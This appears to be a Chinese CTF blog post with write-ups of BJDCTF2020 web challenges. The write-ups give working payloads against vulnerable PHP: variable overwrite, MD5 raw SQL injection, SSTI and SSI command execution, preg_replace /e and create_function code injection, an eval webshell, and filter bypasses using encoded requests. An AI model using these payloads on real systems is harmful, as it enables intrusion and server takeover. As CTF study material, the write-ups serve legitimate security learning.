

+++
title = "BJDCTF2020"
slug = "bjdctf2020"
description = "刷"
date = "2024-08-11T21:04:04"
lastmod = "2024-08-11T21:04:04"
image = ""
license = ""
categories = ["复现"]
tags = ["php"]
+++

# [BJDCTF2020]Mark loves cat

进去之后是一个网页,怀疑是`git`泄露,因为挺多这样拿源码的而且题目是个`cat`

```
python GitHack.py http://a2ea6e9a-3c74-4806-be7c-911267a2c810.node5.buuoj.cn:81/.git
```

`flag.php`是一个普通的开文件的没啥用,源码如下

```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}


echo "the flag is: ".$flag;
```

一个变量覆盖吧,`exit(flag)`就可以得到`flag`

但是深究其特性,我们还是起环境来实验吧

```php
<?php
foreach($_POST as $x => $y){
    $$x = $y;
}
var_dump($$x);
?>
//POST :age=15&passwd=20&w=10
//string(2) "10"
```

```php
foreach($_GET as $x => $y){
    $$x = $$y;
}
//GET:x=y   一个嵌套的赋值
//$x=$y 
```

```php
if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
//这个可以赋值绕过
```

欧克那么上payload

```
?handsome=flag&flag=a&a=flag

?yds=flag

?is=flag&flag=flag
```

# [BJDCTF2020]Easy MD5

抓包发现`hint`

```
hint: select * from 'admin' where password=md5($pass,true)
```

实验发现

```sql
select * from 'admin' where password=''or'1abcdefg'    --->  True
select * from 'admin' where password=''or'0abcdefg'    --->  False
select * from 'admin' where password=''or'1'           --->  True
select * from 'admin' where password=''or'2'           --->  True
select * from 'admin' where password=''or'0'           --->  False
```

那么这里有个很经典的姿势就是`ffifdyop`绕过

这里也引入一个爆破脚本

```php
<?php 
for ($i = 0;;) {
 for ($c = 0; $c < 1000000; $c++, $i++)
  if (stripos(md5($i, true), '\'or\'') !== false)
   echo "\nmd5($i) = " . md5($i, true) . "\n";
 echo ".";
}
```

绕过这层之后进入下一层

```html
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```

```
?a[]=1&b[]=2
```

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

到这里我直接传参竟然过不去了,后来发现是`url`的问题

```
http://55379fcc-71e8-4ff1-9e37-ec8c41bfbd3e.node5.buuoj.cn:81/levell14.php
POST:
param1[]=1&param2[]=2
```

# [BJDCTF2020]The mystery of ip

进来之后发现`IP`可控

然后就慢慢试就可以了,最后发现是`ssti`

尝试了一下`jinja`的RCE,发现把`.`过滤了

然后就直接执行了,没想到成功了,但是有点不适应的是,当前目录有个假`flag`

```
X-Forwarded-For:{{system("ls /")}}

X-Forwarded-For:{{system("nl /f*")}}
```

# [BJDCTF2020]ZJCTF，不过如此

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

如果用`php://input`协议的话确实是需要bp发包了

```
POST /?text=php://input&file=php://filter/convert.base64-encode/resource=next.php HTTP/1.1
Host: 9e7f59cc-c72f-4520-8e03-fe9eb68fad3e.node5.buuoj.cn:81
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://9e7f59cc-c72f-4520-8e03-fe9eb68fad3e.node5.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://9e7f59cc-c72f-4520-8e03-fe9eb68fad3e.node5.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

I have a dream
```

但是如果用`data://`协议的话

直接传这个就可以了

```
?text=data:text/plain;base64,SSBoYXZlIGEgZHJlYW0=&file=php://filter/convert.base64-encode/resource=next.php
```

`next.php`

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}

```

这里是有一个洞的,正则替换函数原型

```
mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])
漏洞条件:
/e修正符修饰下，preg_replace中的第二个参数将当作php代码执行。
```

实验一下,直接借用师傅的代码了哦

```php
<?php
if (isset($_GET['t'])) {
    echo preg_replace('/test/', $_GET['t'], 'Just test');
}
```



```php
<?php
if (isset($_GET['t'])) {
    echo preg_replace('/test/e', $_GET['t'], 'Just test');
}
```

这个版本比较低,所以我就没浮现了,本题是`PHP5.6.40`

那么回到题目

`strtolower`函数可以将大写转小写

```  
'strtolower("\\1")',结果是，任何匹配正则表达式的捕获组内容都会被转换为小写。
```

那么我们绕过

正则中的参数我们就得填写为`.*`或者`\S+`

1. `.`匹配除换行符之外的任意字符；
2. `\S`匹配任何非空白字符。等价于 `[^ \f\n\r\t\v]`；
3. `+`匹配一次或多次,即`{1,}`。

但是GET方式传的字符串,php里会把参数名里的特殊字符转为下划线`_`

那么`.`会被替换成`_`

```
http://9e7f59cc-c72f-4520-8e03-fe9eb68fad3e.node5.buuoj.cn:81/next.php?\S*=${getFlag()}&cmd=echo `tac /f*`;

http://9e7f59cc-c72f-4520-8e03-fe9eb68fad3e.node5.buuoj.cn:81/next.php?\S%2b=${getFlag()}&cmd=echo `tac /f*`;
```

这里有部分绕过,所以我们可以写🐎,但是不带引号即可

```
http://9e7f59cc-c72f-4520-8e03-fe9eb68fad3e.node5.buuoj.cn:81/next.php?\S%2b=${eval($_POST[a])}

POST:
a=echo `ls /`;
```

# [BJDCTF2020]EzPHP

终于不是`phar`反序列化了

```
<html>
<!-- Here is the real page =w= -->
<!-- GFXEIM3YFZYGQ4A= -->
```

base32`/1nD3x.php`

```php
<?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
```

还是挺长的

```php
if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}
```

`if($_SERVER)`不对`payload`进行`url`编码但是普通的传参会,所以直接编码即可绕过

```php
if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');
```

第二层换行符(%0a)就可以绕过了

```php
if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 
```

第三层`$_REQUEST`特性:变量`post`值会优先于`get`,所以`post`一个数字就绕过了

```php
if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");
```

这个用data协议绕过即可

```
data://text/plain,debu_debu_aqua
```

```php
if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}
```

这一层数组绕过就行了,很常见

```php
if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
```

最后一层`create_function()`代码注入

```
http://bf3b327c-71aa-4d54-8368-fac17158dfbb.node5.buuoj.cn:81/1nD3x.php?file=data://text/plain,debu_debu_aque&debu=aque_is_cute%0a&shana[]=1&passwd[]=2

debu=1&file=1
```

实际传参还是要编码的,但是非常傻逼的就是,必须把file放在前面,md不知道怎么检测的

```
?file=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0A&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2

debu=1&file=1
```

`extract($_GET["flag"]);`我们进行覆盖`code`和`ag`

```
flag[code]=create_function&flag[arg]=;}phpinfo();//
当然也要编码
```

`get_defined_vars ()`返回一个关联数组，其中包含当前作用域内所有已定义的变量及其值。既然包含了`flag.php`,那我们就看看

```
flag[code]=create_function&flag[arg]=;}var_dump(get_defined_vars());//

?file=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0A&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%6c%61%67%5b%63%6f%64%65%5d=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67%5b%61%72%67%5d=;}%76%61%72%5f%64%75%6d%70(%67%65%74%5f%64%65%66%69%6e%65%64%5f%76%61%72%73());//
POST:debu=1&file=1
```

找到`rea1fl4g.php`

因为禁用的符号挺多的,这里我们使用`require`和`filter`协议来读取文件

```
require(php://filter/read=convert.base64-encode/resource=rea1fl4g.php)
取反

?file=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0A&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%6c%61%67%5b%63%6f%64%65%5d=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67%5b%61%72%67%5d=;}require(~(%8f%97%8f%c5%d0%d0%99%96%93%8b%9a%8d%d0%8d%9a%9e%9b%c2%9c%90%91%89%9a%8d%8b%d1%9d%9e%8c%9a%c9%cb%d2%9a%91%9c%90%9b%9a%d0%8d%9a%8c%90%8a%8d%9c%9a%c2%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f));//

POST:
debu=1&file=1
```

真恶心啊,特别是编码哪一块,浪费很多时间

# [BJDCTF2020]EasySearch

目录扫描到`index.php.swp`

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

爆破

```python
import hashlib

for i in range(1,10000000000000):
    m=hashlib.md5(str(i).encode()).hexdigest()
    if m[0:6]=='6d0bc1':
        print(i)
        break
    
```

之后,输入没回显,于是抓包

```
Response:

HTTP/1.1 200 OK
Server: openresty
Date: Mon, 12 Aug 2024 07:31:59 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 568
Connection: close
X-Powered-By: PHP/7.1.27
Url_Is_Here: public/99f40cea251233eb066306b560786af165289a0d.shtml
Vary: Accept-Encoding
Cache-Control: no-cache

<!DOCTYPE html>
    <html>
    <head>
    <meta charset="utf-8">
    <title>Login</title>
    <meta http-equiv="Content-Type" content="text/html;charset=UTF-8">
    <meta name="viewport" content="width=device-width">
    <link href="public/css/base.css" rel="stylesheet" type="text/css">
    <link href="public/css/login.css" rel="stylesheet" type="text/css">
    </head>
    <body><script>alert('[+] Welcome to manage system')</script>[!] Header  error ...            <div id="tip"></div>
    <div class="foot">
    bjd.cn
    </div>
    </form>
</div></body>
</html>
```

进入界面之后发现IP不可控,只能看看`username`

后面观察是`shtml`上网查了一下名为`SSI注入`

## SSI

- Web服务器为Apache和IIS（支持SSI功能的服务器）
- 服务器有上传或者用户输入页面且未对相关SSI关键字做过滤
- Web应用程序在返回响应的HTML页面时，嵌入用户输入
- 未对输入的参数值进行输入过滤

```
<!--#exec cmd="id"> -->
是可以执行命令的
```

也就是说我们在网页生成以后的shtml文件中就可以看到命令结果

看包

```
Request:

POST /index.php HTTP/1.1
Host: 61d84261-0376-475e-82b8-6957f642df64.node5.buuoj.cn:81
Content-Length: 52
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61d84261-0376-475e-82b8-6957f642df64.node5.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://61d84261-0376-475e-82b8-6957f642df64.node5.buuoj.cn:81/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=<!--#exec cmd="ls ../" -->&password=2020666
```

```
POST /index.php HTTP/1.1
Host: 61d84261-0376-475e-82b8-6957f642df64.node5.buuoj.cn:81
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61d84261-0376-475e-82b8-6957f642df64.node5.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://61d84261-0376-475e-82b8-6957f642df64.node5.buuoj.cn:81/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=<!--#exec cmd="tac ../f*" -->&password=2020666
```

# [BJDCTF2020]Cookie is so stable

查看源码

```
<!-- Why not take a closer look at cookies? -->
```

终于翻了几个网页找到了注入点ssti

`php`的`ssti`还是第一次,去网上查了一下,直接套的`payload`

`Twig`模块应该是

```
request:

POST /flag.php HTTP/1.1
Host: 54976d8d-7256-49ea-b9f5-92dbf98e734e.node5.buuoj.cn:81
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://54976d8d-7256-49ea-b9f5-92dbf98e734e.node5.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://54976d8d-7256-49ea-b9f5-92dbf98e734e.node5.buuoj.cn:81/flag.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=15294df4dceeffc6c03a4f227f7f3392;user={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("tac /f*")}}
Connection: close
```

但是为什么不能读取目录呢

本来想着读取目录的,但是过滤的确实多,弄了好一会二都没出
